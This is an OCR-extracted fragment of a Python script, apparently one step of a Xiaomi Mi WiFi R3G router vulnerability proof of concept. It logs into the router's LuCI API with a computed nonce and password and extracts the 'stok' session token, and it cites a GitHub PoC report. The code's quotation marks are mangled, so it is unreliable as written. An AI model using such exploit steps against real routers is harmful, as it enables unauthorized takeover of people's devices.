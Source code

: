 ```
account_str = get_account_str()

## login, get stok

nonce = create_nonce(mac)

password = calc_password(nonce, account_str)

data = “username=admin&password={password}&logtype=2&nonce={nonce}”.format(password=password,nonce=nonce)

r2 = requests.post(“[http://192.168.31.1/cgi-bin/luci/api/xqsystem/login](http://192.168.31.1/cgi-bin/luci/api/xqsystem/login)”,

data = data,

headers={“User-Agent”: “Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0”,

“Content-Type”: “application/x-www-form-urlencoded; charset=UTF-8”},

proxies=proxies)

# print(r2.text) `stok = re.findall(r’“token”:"(.*?)"’,r2.text)[0]

print(“stok=”+stok)` 
```

## 参考链接

> https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md
